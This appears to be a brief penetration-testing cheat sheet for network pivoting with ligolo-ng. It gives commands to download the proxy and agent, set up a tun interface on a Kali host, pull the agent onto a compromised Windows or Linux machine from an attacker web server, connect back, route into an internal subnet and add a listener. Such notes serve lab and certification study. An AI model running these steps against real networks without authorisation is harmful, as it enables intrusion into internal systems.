 ### download proxy
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_proxy_0.5.2_linux_amd64.tar.gz

tar -xzvf ligolo-ng_proxy_0.5.2_linux_amd64.tar.gz 
```

### download agent
#### windows
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_agent_0.5.2_windows_amd64.zip 

unzip ligolo-ng_agent_0.5.2_windows_amd64.zip 
```
#### linux
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_agent_0.5.2_linux_amd64.tar.gz

tar -xzvf ligolo-ng_agent_0.5.2_linux_amd64.tar.gz
```

### set proxy
```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

### upload agent
#### windows
```
iwr -UseBasicParsing http://ip:8000/agent.exe -outfile agent
```
#### linux
```
wget http://ip:8000/agent
```

### connect to proxy 
```
./agent.exe -connect 192.168.45.x:11601 -ignore-cert
```

if cannot connec
### chose session id
```
session
1
```

### add route
open another terminal and add pivot ip range
```
sudo ip route add ip/24 dev ligolo
```

### ligolo-ng start
```
start
```

### listener add
```
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000
```
